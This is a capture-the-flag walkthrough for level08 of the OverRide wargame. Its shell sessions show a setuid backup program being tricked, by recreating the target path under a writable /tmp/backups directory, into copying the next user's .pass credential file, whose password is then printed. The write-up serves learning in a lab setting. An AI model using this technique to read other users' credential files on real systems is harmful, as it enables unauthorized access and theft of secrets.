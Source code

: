 # Walkthrough level08

Try to run the binary:

```bash
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 toto
ERROR: Failed to open toto
```

We need to give a valid file:

```bash
level08@OverRide:~$ echo toto > tata
-bash: tata: Permission denied
```

We don't have the permission, try to do it in `/tmp`:

```bash
level08@OverRide:~$ echo toto > /tmp/tata
level08@OverRide:~$ ./level08 /tmp/tata
ERROR: Failed to open ./backups//tmp/tata
```

The binary try to create a file with `./backups` before our filename.  
So we try to create a directory named `tmp` in the `backups` directory:

```bash
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ /home/users/level08/level08 tata 
level08@OverRide:/tmp$ cat backups/tata 
toto
```

This is working, try with the flag:

```bash
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We can't open `./backups//home/users/level09/.pass` because the directories does'nt exist.

```bash
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
